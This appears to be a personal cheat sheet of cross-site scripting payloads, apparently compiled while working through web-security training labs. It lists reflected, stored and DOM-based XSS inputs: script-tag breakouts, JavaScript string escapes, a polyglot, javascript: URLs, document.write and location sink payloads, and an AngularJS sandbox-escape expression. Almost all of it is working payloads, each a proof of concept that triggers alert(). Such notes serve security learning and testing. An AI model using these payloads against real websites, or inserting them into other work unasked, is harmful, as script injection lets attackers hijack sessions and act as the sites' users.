 # Reflected
`GET /?search=<script>alert(1)</script> HTTP/1.1`

### escape script and backslash

`</script><img src=1 onerror=alert(document.domain)>`

`</script><script>alert(1)</script>`

### Brak out of javascript string

`'-alert(document.domain)-'`

`'+alert(document.domain)+'`

`';alert(document.domain)//`

`http://foo?&apos;-alert(1)-&apos;`

`${alert(document.domain)}`

`javascript:"/*'/*'/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>`


# Stored

Enter the following into the comment box

`<script>alert(1)</script>`

`"onmouseover="alert(1)`

Inserted in GET/POST request

`<a id="author" href="javascript:alert(document.domain)">test</a>`

# DOM XSS

If you search 5333 in search bar

in javascript function calls 

                        function trackSearch(query) 
                        {document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');}
                        var query = (new URLSearchParams(window.location.search)).get('search');
                        if(query){trackSearch(query);}
                    
                        <img src="/resources/images/tracker.gif?searchTerms=5333">
                        
                        
search for 

` "><svg onload=alert(1)>`

this will break out new paramiter in javascript

 Document sink
 
 `name=<img+src+onerror=alert(1)>`
 
 Location sink
 
 `redir=javascript:alert(1)`
 
 `&storeId="></select><img+src%3d1+onerror%3dalert(1)>`
 
  Execution sink eval call error
  
  `index=alert(1)`
  
  angular js sink
  
  `{{$on.constructor('alert(1)')()}}`
 
 
